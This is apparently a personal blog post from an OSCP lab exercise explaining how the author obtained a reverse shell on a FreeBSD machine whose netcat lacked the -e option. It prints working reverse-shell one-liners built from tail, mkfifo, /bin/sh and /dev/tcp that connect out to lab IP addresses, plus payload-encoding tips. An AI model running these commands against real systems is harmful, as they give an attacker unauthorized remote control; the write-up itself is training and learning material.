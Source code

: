 ```yaml
---
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security
tags: netcat hack
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see. Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, not quite my expertise. Finally I came up with a simple solution using _tail -f_.

<img src="/images/posts/netcat_freebsd.png" 
     alt="Netcat on FreeBSD"
     class="media pull-right img-thumbnail">
I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following simple solution.

1. Use _tail -f_ to feed commands from a temporary file to bash. (Using _-n 0_ to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:

```console
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
```

That's awsome! But don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous 
[/dev/tcp/&lt;ip&gt;/&lt;port&gt;](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) 
did not work either. The following command did not result in any response on my machine.

```console
echo foo > /dev/tcp/10.11.0.13/443
```

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

```console
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
```

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the _mkfifo pipe_ command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When _uname -a_ gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: _chmod +x_ did not work, _chmod 777_ did the job... (◔_◔)

_If at first you don't succeed, try, try, try harder!_
